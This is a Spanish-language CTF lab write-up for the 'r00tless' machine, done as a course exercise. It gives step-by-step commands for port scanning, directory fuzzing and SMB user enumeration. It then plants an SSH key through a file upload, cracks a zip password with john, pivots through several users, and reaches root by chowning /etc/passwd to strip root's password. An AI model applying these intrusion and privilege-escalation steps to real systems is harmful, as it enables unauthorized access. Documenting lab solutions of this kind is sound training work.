# Readme r00tless:
## Write up creado por Jeronimo Barrera Monroy ejercicio parcial 1 ciberseguridad r00tless
## Ejercicio realizado con la ayuda del writeup de Isma-yo y sk0pj3e
## 1. Ping

Una vez inicializada la maquina, lo primero que vamos a realizar es comprobar si hay ping con la maquina:

```bash
ping -c 3 172.18.0.2
```


Observamos que el ping fue exitoso.

## 2. Escaneo de puertos con nmap

Realizamos un escaneo de que puertos hay abiertos con nmap

```bash
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.18.0.2
```
Teniendo el siguiente resultado:



De todo eso nos fijamos en lo siguiente:



Vemos que estan abiertos los siguientes puertos:

* **22/tcp — SSH** : Servicio SSH.
* **80/tcp — HTTP** : Pagina web.
* **139/tcp — NetBIOS/SMB** : Servicio SMB (samba)
* **445/tcp — SMB/CIFS** : SMB2/SMB3 disponible.

Miramos primero que nos encontramos en la pagina web (puerto 80), copiando la ip de la maquina en un buscador:



Vemos que es una pagina a la cual le podemos subir archivos, 
miramos si encontramos algo relevante en el codigo de la pagina:



En el cual no encontramos nada importante.

## 3. Fuzzing

Realizaremos un fuzzing para ver si nos encontramos con algun fichero que nos sea util.

Utilizando la herramienta de gobuster:

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```



Vemos que hay un **"/upload.php"** el cual vamos a entrar y mirar que nos muestra:



Vemos que hay un **"/readme.txt"** en la cual vamos a entrar, mediante la pagina web, obteniendo lo siguiente:



El mensaje dice lo siguiente:

```
Es posible que el archivo que se está cargando se esté cargando en un .ssh/?
```

Esto nos da a entender que si subimos algun archivo en la pagina principal se subiran al **.ssh** de la maquina

## 4. Enum4lix

No sabemos que usuarios puede haber en la maquina, sin embargo, cuando hemos hecho el **nmap** hemos visto que tenia **Samba** instalado, por lo que podemos probar a ejecutar el comando **enum4linux** para ver que informacion nos da:



```bash
enum4linux 172.18.0.2
```

El cual tenemos el siguiente resultado:



Llegaremos a este apartado y solo le daremos **enter**:



Y nos encontraremos con lo siguiente:


Hay 4 posibles usuarios, asi que sabiendo que los archivos que subamos a la maquina iran al directorio .ssh podemos crear un par de claves con el comando ssh-keygen y subir la clave publica a la maquina victima.

## 5. Par Claves

Colocando el siguiente comando crearemos el un par de claves:

```bash
sudo ssh-keygen -t rsa -b 4096
```



Aqui colocamos la dirección donde queremos que quede guardada nuestra key, donde esta la maquina. En mi caso fue este:



Obtenemos lo siguientes archivos:



* **id_rsa**
* **id_rsa.pub**

Ahora pasamos la clave a un **authorized_keys**

```bash
sudo sh -c 'cat id_rsa.pub > authorized_keys'
```



Y le damos permisos a id_rsa:

```bash
sudo chmod 600 id_rsa
```


## 6. Subir Archivo  

Subimos el **authorized_keys** en la pagina web:



Seleccionamos el archivo:



Ya el archivo subido correctamente: 



## 7. Conexion SSH

Ahora nos conectaremos via ssh probando con los usuarios encontrados anteriormente, nos podremos conectar mediante el usuario **passamba**, colocando el siguiente comando:

```bash
sudo ssh passsamba@172.18.0.2 -i id_rsa
```



Ya dentro hacemos un **"ls"** para ver que nos muestra:



o tambien con **ls -trola** para mas ver mas cosas:



Esto aparenta ser una contraseña para entrar con otro usuario, entonces probamos con los usuarios restantes y vemos que podremos acceder con el usuario **sambauser**:



Y ya somos ahora **sambauser**

Ya dentro buscaremos alguna carpeta que tenga algo interesante, por ejemplo dentro de la carpeta **srv**:



y si seguimos explorando por ahi, encontraremos un **secret.zip**:



## 8. Servidor Python Puerto:8080

Para extraer el archivo **secret.zip**, nos lo pasamos a nuestra maquina atacante levantado un servidor en Python por el puerto **8080**:

```bash
python3 -m http.server 8080
```



Abrimos otra shell donde con un **wget** tomar el **secret.zip**

```bash
sudo wget http://172.18.0.2:8080/secret.zip
```

Y haciendo un **ls** vemos que ya tenenmos el **.zip**  

## 9. Extraccion del .zip

Vamos a crackearlo con zip2john y john:

```bash
sudo sh -c 'zip2john secret.zip > hash'
```



y ahora con el john:

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



Ahi obtenemos la contraseña para extraer el **.zip**:

```bash
qwert
```

El cual hay dos formas para extraer el **.zip**:
* **1.** 
```bash
sudo unzip -P qwert secret.zip
```



* **2.**
```bash
sudo unzip secret.zip
```



Y ahora con **cat** vamos a visualizar lo que hay dentro del **.txt**:

```bash
cat secret.txt
```



Vemos que tenemos lo que parece ser, el usuario **root-false** con contraseña **"cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ=="**

Ahora decodificamos a **Base64**:

```bash
echo 'cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==' | base64  -d
```



Todo esto se realiza en la nueva shell que creamos. 

## 10. Acceso al root-false

Y ahora pasamos a la anterior shell y vamos acceder con los nuevos datos que obtuvimos:

```bash
su root-false
```
Colocando la contraseña:

```bash
passwordbadsecureultra
```



Y efectivamente ahora solo **root-false**

Buscando que hay en su directorio home observamos lo siguiente:



Vemos que hay una **message.txt** al cual le hacemos un **cat** 

Parece ser un nuevo usuario llamado **mario**, con el mensaje **"pinguinodemarioelmejor"** que parece ser su contraseña

Si seguimos explorando por los directorios:



Entramos por el **/etc/**



Miramos la carpeta **apache2**



Entramos a la carpeta **sites-enabled**



y haremos un cat sobre **second-site.conf**

```bash
cat /etc/apache2/sites-enabled/second-site.conf
```



Vemos que hay otra pagina web a la que podemos acceder utilizando otra ip

Si hacemos un curl a la IP para ver el contenido de la web observamos lo siguiente:

```bash
curl http://10.10.11.5/
```

 

Si seguimos bajando encontraremos un apartado de login:



Probablemente podremos utilizar el usuario **mario** y la contraseña que habia dentro del **message.txt**, para ellos ejeuctaremos el siguiente comando:

```bash
curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5
```



En el apartado de location hay una nueva ruta donde puede haber algo, miraremos el contenido de esa ruta con el siguiente comando:

```bash
curl -vvv http://10.10.11.5/super_secure_page/admin.php/
```


Si seguimos bajando hasta el final, encontramos lo siguiente:



Encontramos un fichero algo sospechoso, veremos que contiene con el siguiente comando:

```bash
curl -vvv http://10.10.11.5/ultramegatextosecret.txt
```

## 11. Acceso a usuario less



Vemos el siguiente mensaje:



Parece ser un texto cualquiera, sin relevancia, pero podemos ver dos cosas que llaman la atención, el autor es **less** uno de los usuarios que encontramos al inicio y el mensaje con guion al piso **"Cristal_de_la_Aurora"**, parece como si se tratara de una contraseña.

Entonces lo probaremos:



Ahora somos el usuario **less**

Ejecutaremos el comando **sudo -l** para ver si podemos ejecutar algo con el usuario root sin utilizar contraseña:



Vemos que podemos ejecutar el comando **chown** para cambiar el propietario de los archivos.

Lo que haremos con el fichero **/etc/passwd**, donde una vez que seamos propietarios del fichero podremos editarlo para quitarle la **x** al usuario **root** y de este modo no tenga contraseña:

```bash
sudo chown less:less /etc/passwd
```



Aca no modifique el archivo con el **nano**, quitando la **x** por lo cual no pude acceder al **root**.



Modificando ahora si:



```bash
su root
```



Y ya somos root!!!

Y finalizamos.


# 10 Vulnerabilidades encontradas.
